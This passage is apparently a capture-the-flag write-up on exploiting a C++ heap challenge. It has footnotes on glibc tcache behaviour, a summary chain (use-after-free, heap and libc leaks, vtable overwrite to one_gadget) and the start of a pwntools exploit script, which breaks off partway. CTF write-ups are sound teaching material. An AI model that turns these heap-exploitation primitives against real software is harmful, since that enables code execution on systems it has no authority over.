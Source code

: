 ## Footnotes

1. Necessarily, this writeup will be riddled with misinformation and mistakes. Don't take this as gospel, read the sources for yourself, and make a PR on this writeup if there's a mistake you really care about.
2. This is not the proper terminology and I won't pretend I know what it ought to be.
3. This doesn't happen at all in reality. It's almost impossible to remerge any of the allocations back into `malloc_arena->top`, meaning that most allocations remain confined to their own tcaches (and fastbins/smallbins if necessary), The experiment here worked as a matter of coincidence: when `string.size()` is in the range [0x10, 0x1f), a `malloc(0x1f)` call is made to handle it. This just-so-happens to land in `tcache[size=0x30]`, which is also host to Food/Bamboo structs.
4. The odds of crashing are proportional to the number of `size=0x30` chunks present on the tcache. It's easier to understand once you grasp how [allocations are handled](#better-primitives), but in short: the first reallocation (`'A'`) puts `foods[2]` on `tcache[size=0x30]`. The second allocation will overwrite that chunk with `B` if its not a `Food` type, giving baseline odds of 50%. These odds go downhill if the tcache is filled with enough garbage -- something which I didn't draw a connection to until I figured out a consistent exploit primitive.
   In any case, `(50%)**3` isn't good enough odds for the exploit I want.
5. I'm still not sure about this part. The code seems to indicate vice versa, but either way it's still a 1/2 chance per loop.

## TLDR

- `free` a `unique_ptr<Food>` by overwriting an already existing `foods[idx]`
- saving a `Food*` pointer in `favorite` allows for a UAF;
- `->bk` can be used to leak the heap
- Modify the contents of `favorite` by heap-feng-shui-ing an 0x30 heap chunk onto the backing store for `string name`
- Use modified `favorite`s to leak PIE from heap, and libc from PIE
- modify `favorite`'s vtable to jump to `one_gadget`

## Code

note: your libc-database might contain `libc6_2.27-3ubuntu1.3_amd64`; I removed it because the package for that libc version [appears to be deleted](archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1.3_amd64.deb).

It's also worth noting that this code should succeed both locally _and_ on remote. 

```python
from pwnscripts import *
from string import whitespace
from random import randint
context.binary = 'chall'
if args.LOCAL:
    context.libc = 'libc6_2.27-3ubuntu1.4_amd64'
    r = context.binary.process()
else: r = remote('mc.ax', 31707)

optc = 0
def flush(): # speed up i/o by deferring recvs until necessary
    global optc
    while optc:
        r.recvuntil('choice: \n')
        optc -= 1
def choose(opt: int):
    global optc
    r.sendline(str(opt)) # io speed: r.sendlineafter('choice: \n', str(opt))
    optc+=1

def sendidx(idx: int): r.sendline(str(idx)) # io speed: r.sendlineafter('idx: \n', str(idx))
def alloc(idx: int, name: bytes):
    assert all(c not in whitespace.encode() for c in name) # whitespace will cause cin to terminate. This necessarily means that some ASLR bytes can kill an exploit.
```
